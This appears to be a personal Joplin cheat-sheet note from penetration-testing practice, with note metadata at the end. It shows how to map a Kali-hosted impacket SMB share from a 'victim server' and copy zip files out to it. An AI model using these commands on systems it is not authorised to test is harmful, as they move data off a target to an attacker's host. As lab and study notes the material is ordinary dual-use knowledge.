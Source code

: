 Samba

On the victim server, run

> net use Z: \\\KALIIP\\share

Then on kali, run in the folder to get the files

> impacket-smbserver share \`pwd\`

Then copy the files to be shared into the shared directory

> copy *.zip z:.

# venv

If a vitrualenv is setup, there is a smbserver.py to share a samba share

python smbserver.py lab \`pwd\`

# On windows

move file.zip \\\$IP\\$Share\\file.zip

id: 5e5f4817d1944d01bac395c9b67c1541
parent_id: 819fca2060d64809bbdac4fc93fdd86a
created_time: 2022-01-19T09:10:14.057Z
updated_time: 2022-04-21T14:34:22.839Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-19T09:10:14.057Z
user_updated_time: 2022-04-21T14:34:22.839Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1